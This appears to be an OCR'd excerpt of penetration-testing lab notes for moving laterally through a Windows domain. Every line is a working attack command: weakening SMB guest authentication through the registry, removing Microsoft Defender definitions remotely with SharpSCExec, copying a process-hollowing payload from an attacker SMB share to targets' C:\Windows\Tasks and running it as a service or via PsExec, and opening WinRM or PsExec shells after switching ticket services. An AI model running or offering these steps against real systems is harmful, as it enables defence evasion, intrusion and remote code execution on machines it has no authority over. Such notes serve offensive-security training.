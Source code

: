                     - reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters /t REG_DWORD /v AllowInsecureGuestAuth /d 1 /f
                - **Disable Defender before shell:
                    - \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "cmd.exe /c c:\PROGRA~1\WINDOW~1\MpCmdRun.exe -RemoveDefinitions -All"
                - **Best Shell Method - copy and execute Hollower/Injector:
                    - copy \\192.168.45.158\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\file01\c$\windows\tasks
                    - \\192.168.45.158\visualstudio\SharpSCExec\SharpSCExec\bin\x64\Release\SharpSCExec.exe FILE01 SensorService "C:\Windows\Tasks\Hollow.exe"
                - **PSExec Shell Method:
                    - copy \\192.168.49.121\visualstudio\Hollow\Hollow\bin\x64\Release\Hollow.exe \\jump09.ops.comply.com\c$\windows\tasks
                    - \\192.168.49.121\visualstudio\sysinternals\PsExec64.exe -accepteula \\jump09.ops.comply.com "c:\windows\tasks\Hollow.exe"
        - **can still use /altservice:
            - Shell Option 2 - switch for /altservice:http and get winrm shell:
                - Enter-PSSession -ComputerName cdc01.prod.corp1.com
            - Shell Option 3 - switch for /altservice:host and get psexec shell:
                - .\PsExec64.exe \\cdc01.prod.corp1.com cmd.exe